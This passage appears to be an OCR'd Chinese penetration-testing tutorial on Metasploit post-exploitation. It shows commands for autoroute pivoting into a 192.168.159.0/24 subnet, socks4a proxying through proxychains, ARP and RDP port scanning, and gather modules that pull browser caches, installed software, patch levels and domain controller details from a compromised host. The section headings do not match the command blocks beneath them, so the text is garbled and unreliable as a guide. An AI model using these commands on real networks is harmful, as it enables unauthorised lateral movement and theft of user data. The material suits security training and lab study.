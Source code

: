```
run autoroute –h #查看帮助
run autoroute -s 192.168.159.0/24  #添加到目标环境网络
run autoroute –p  #查看添加的路由
```

2）portfwd 端口转发

```
run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8dd84710-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232238-8dd84710-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8df589f6-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8df589f6-998c-1.png)

3）autoroute 添加路由

```
msf> use auxiliary/server/socks4a 
msf > set srvhost 127.0.0.1
msf > set srvport 1080
msf > run
```

然后可以利用 arp_scanner、portscan 等进行扫描

```
/usr/share/metasploit-framework/modules/post/windows/gather
/usr/share/metasploit-framework/modules/post/linux/gather
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e0bdbca-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e0bdbca-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e1d7ec0-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e1d7ec0-998c-1.png)

4）Socks4a 代理

autoroute 添加完路由后，还可以利用 msf 自带的 sock4a 模块进行 Socks4a 代理

```
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm #是否虚拟机
run post/windows/gather/forensics/enum_drives #查看分区
run post/windows/gather/enum_applications #获取安装软件信息
run post/windows/gather/dumplinks   #获取最近的文件操作
run post/windows/gather/enum_ie  #获取IE缓存
run post/windows/gather/enum_chrome   #获取Chrome缓存
run post/windows/gather/enum_patches  #补丁信息
run post/windows/gather/enum_domain  #查找域控
```

然后 vi /etc/proxychains.conf #添加 socks4 127.0.0.1 1080  
最后 proxychains 使用 Socks4a 代理访问

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e2ebffa-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232239-8e2ebffa-998c-1.png)
